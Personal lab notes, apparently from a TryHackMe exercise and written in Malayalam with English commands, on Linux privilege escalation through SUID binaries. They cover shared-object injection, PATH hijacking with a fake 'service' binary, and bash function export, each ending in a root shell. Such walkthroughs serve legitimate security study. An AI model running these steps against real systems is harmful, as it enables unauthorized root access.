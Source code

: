 #### Known exploits
1) Find all the SUID/SGID executables:
  -->find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
ivide we  find /usr/sbin/exim-4.84-3 - a vulnerable binary.so ithinte known exploit exploit-db il ninum edukuka enit ith just ./execute chythal mathi aayi

====================================================

#### shared object injection
2) epozhum suid,sgid nokan -  -->find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null   command adikanam.ivide executable file il onn shared object call chyunathayi kanam
-->ath run chyth nokuka         -->/usr/local/bin/suid-so
ini strace command use chyth system calling nokam
-->strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
-->ivide strace enna toolin ee shared object find chyan patunila enn thonunu.
-->so nammal ithe name il ulla oru shared object undakunu
-->shared object undakanengi c code il chyth compile aatum chyanam
-->Create the **.config** directory for the libcalc.so file:
         -->mkdir /home/user/.config
-->ivide namuk already compile chyanulla c code author thanitund.ath oru bash shell spawn chyth tharum
   -->gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
-->ini -->cd /home/user/.config adich -->ls adichal kanam libcalc.so enna file
-->ini nerthe pole aa binary run chyuka -->/usr/local/bin/suid-so

=========================================================

#### Environment Variables
-->nerthe pole suid,sgid executeble file kanthethuka enit athil env enoke avasanikuna files note chyuka
-->aadyam ath execute chyuka.so aa path angane eduth terminalil copy paste chyuth nokuka - /usr/local/bin/suid-env
-->strings enn koduth aa path copy paste chyth nokuka apol kanam service apache2 start enn.so ivide just service,apache2 enn mathrame koduthitulu full path koduthitila so aa file environment variable il rely chyunu ennanartham so namal ath exploit chyuka
-->nammal service edukunu.service in absoulte path onum ilathathkond thane
-->so nammal thane puthiya service binary undakunu.so angane suid-env file namude service binary run chyum
-->so aadyam namal oru c code(service.c) undakanam that spawns a bash shell enit ath compile chyanam.nammal compile chyunath enthinanenal executable aakan aanen thonunu
-->`gcc -o service /home/user/tools/suid/service.c` so compiled aayi.note: -o ititt name service enn thane kodukanam
-->ini ->echo $PATH enna koduth enviroment variable path nokuka
-->avide namuk puthuthayi oru variable PATH undakam.enit athil ee executable service idam.anganeee suid-env file run chyumbol namal undakiya path aadyam ullath kondthane athile service file run chyum
-->so puthiya path undaka: -->PATH=/home/user:$PATH   , ->echo $PATH  adich nokiyal kanam puthiya path ayath
-->ini nerthe pole -->/usr/local/bin/suid-env adikuka apol namuk shell kitum.karanam nammal puthuthayi akiya pathil thane aan service binary ulath so engotum ini matendathila

#### Abusing Shell Features-1
-->aadyam suid ulla executable file kandethuka and it is run by root(root run chyanamenath nirtbandamano en arila)
-->strings /usr/local/bin/suid-env2
   ivide /usr/sbin/service apache2 start ennan undavuka.so ivide full path und so environment variable ine rely chyunila
-->/bin/bash/ --version       adich bash inte version nokuka.4.2 in thazhe aanegil ath vulnerable aan
-->function /usr/sbin/service { /bin/bash -p; }   - ivide /usr/sbin/service ennath replace chyuny.ith call chyumbol curly brace il ula bash aakum. -p ennal permission preserve chyuka enathan.karanam ee file root aayit run chyunond ith idanam.ini namuk ee /usr/sbin/service original ilek(/usr/sbin/service) export chyanam:
-->export -f /usr/sbin/service    - ipol namal undakiya function adangiya /usr/sbin/service originalil replace aayi
-->ini namuk aa executabel file run chyam:
    -->/usr/local/bin/suid-env2
	>id          //root
	
#### Abusing Shell Features-2
-->/bin/bash --version 4.4 in thazhe ulla version ilum vulnerability und
-->pakse ithine pati tryhackme il nokit valuthayit manasilavunil
-->ento ps4 environment variable oke paryunund
-->sambavam /bin/bash adich root spawn chyunath thane aan